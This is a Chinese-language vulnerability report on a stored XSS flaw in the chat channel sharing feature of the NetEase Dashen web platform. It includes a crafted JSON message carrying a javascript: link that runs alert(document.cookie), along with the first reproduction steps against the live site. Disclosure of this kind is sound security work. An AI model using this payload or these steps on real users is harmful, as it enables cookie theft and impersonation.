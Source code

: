     { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "p", "url": "javascript://%0avar a=\"163.com\";alert(document.cookie);", "desc": "o", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }


## Summary
网易大神web版中，聊天频道分享帖子时，前后端没有对帖子的链接进行过滤，攻击者能够构造javascript链接，受害者通过点击链接触发XSS执行，攻击者能够窃取用户cookie（包含手机号码），伪造发消息等攻击。

### Detail
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### Trigger
1. 登录大神Web平台 https://ds.163.com/
2. 进入频道，选择任意频道测试发消息，例如进入测试频道 https://ds.163.com/channel/0149881871/1459515/
发消息测试，并且通过burpsuite观察请求包结构

    ![sendmsg](/assets/images/sendmsg.png)

    可以从请求头header中看到，前端对请求体做了校验，攻击者直接修改请求体是不可行的